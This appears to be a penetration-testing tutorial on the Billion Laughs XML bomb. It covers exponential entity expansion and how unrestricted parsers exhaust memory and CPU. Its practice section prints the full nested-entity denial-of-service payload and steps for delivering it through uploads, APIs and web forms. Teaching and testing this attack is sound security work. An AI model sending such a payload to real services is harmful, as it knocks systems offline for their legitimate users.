

# Billion Laugh Attack

## Context

The Billion Laugh Attack is a type of denial-of-service (DoS) attack that exploits XML parsing vulnerabilities. It leverages exponential entity expansion, also known as an XML bomb, to overwhelm system resources and render a service unresponsive. This technique is effective against parsers that do not impose limits on XML entity expansion. To effectively engage with this topic, you should be familiar with XML structure, entity declarations, XML parsing, and the general practice of exploiting XML External Entities (XXE) to perform a DoS attack.

## Theory

### Exponential Entity Expansion in XML (Billion Laughs)

The Billion Laugh Attack utilizes the concept of exponential entity expansion within XML files. An XML entity is a storage unit or placeholder used to represent data. In this attack, entities reference each other, causing a chain-like reaction during parsing. This leads to exponential data growth as the entities expand recursively.

Vulnerable XML parsers lack sufficient restrictions on entity expansion, making them susceptible to this attack. As a result, they can quickly exhaust available resources, such as memory and CPU time, shutting down the targeted server.

### XML Bomb Mechanics and Impact

The core mechanic of the XML bomb is to entice the parser into expanding nested entities recursively. An attacker crafts an XML file containing a labyrinth of these entity declarations. Once submitted, the parser reads these entities and begins expanding them exponentially, consuming a massive amount of memory and CPU cycles.

This attack's data flow is straightforward: 
- An attacker submits an XML bomb.
- The server's XML parser initiates entity expansion.
- Uncontrolled expansion leads to resource exhaustion.
- The server becomes unresponsive, resulting in a denial of service.



### Denial of Service via XML Parsing

Denial of Service (DoS) occurs when a service can no longer accommodate legitimate requests due to depleted resources. The success of a Billion Laugh Attack depends heavily on the targeted parser's configuration and limitations concerning entity expansions. Without proper checks, an XML bomb can cripple services by exhausting processing power and memory, making the system unresponsive.

## Practice

### Crafting and Delivering a Billion Laughs XML Bomb

- Begin by crafting the exploit payload. This XML document is designed to expand aggressively by defining entities that reference each other:

```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
    <!ENTITY lol "lol">
    <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
    <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
    <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
    <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
    <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
    <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
    <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
    <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
    <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

- Submit the payload. This can be accomplished through several interfaces:
  - Use an application upload feature that accepts XML files.
  - Send it via an API endpoint configured to handle XML data.
  - Utilize web forms that process XML inputs.

- Observe the target's response and resource consumption:
  - Monitor for abnormal CPU or memory usage.
  - Check for service timeouts, slow responses, or complete unavailability.

The expected outcome of this attack is that the target server's resources will be rapidly exhausted, eventually leaving it unresponsive. This leads to a successful denial of service, impacting the availability of the application.

## Tools

- **curl**
- **Burp Suite**
- **Postman**